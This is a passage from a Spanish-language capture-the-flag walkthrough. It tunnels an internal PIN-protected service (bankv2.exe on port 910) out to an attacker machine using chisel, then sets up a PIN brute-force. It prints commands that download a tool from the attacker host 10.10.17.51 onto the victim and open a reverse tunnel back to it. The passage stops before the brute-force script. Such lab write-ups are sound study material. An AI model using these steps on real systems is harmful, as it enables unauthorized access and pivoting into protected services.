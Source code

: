 El comando `netstat -ano` nos permite ver el UID de los puertos abiertos y con el comando `tasklist`, miramos que servicio core para este UID.
En este caso vemos que es el mismo **bankv2.exe**.

Miramos con el **nc.exe** lo que es.

```bash
%temp%\nc.exe 127.0.0.1 910
#Output
Please enter your super secret 4 digit PIN code to login:
```

Como el puerto esta interno a la maquina, vamos a tirar de **chisel** para exponerlo a nuestra maquina de atacante y vamos a bruteforcear el pin con 
un script en python.

1. Descargamos chisel

    ```bash
    wget https://github.com/jpillora/chisel/releases/download/v1.7.6/chisel_1.7.6_windows_amd64.gz
    mv chisel_1.7.6_windows_amd64.gz chisel.exe.gz
    gunzip chisel.exe.gz
    ```

1. Transferimos chisel a la maquina victima

    - Desde la maquina de atacante

        ```bash
        python3 -m http.server 80
        ```

    - Desde la maquina victima

        ```bash
        cd %temp%
        powershell iwr -uri http://10.10.17.51/chisel.exe -OutFile C:\Windows\Temp\chisel.exe
        ```

1. Preparamos el chisel para linux en la maquina de atacante

    ```bash
    git clone https://github.com/jpillora/chisel/
    cd chisel
    go build -ldflags "-s -w" .
    upx chisel

    ./chisel server --reverse --port 1234
    ```

1. Lanzamos el cliente desde la maquina victima

    ```bash
    chisel.exe client 10.10.17.51:1234 R:910:127.0.0.1:910
    ```

Ahora ya tenemos accesso al puerto 910 de la maquina victima desde nuestra maquina. 

Ya podemos crear un script en python para que ataque este puerto. Pero primero creamos un diccionario de pins con crunch
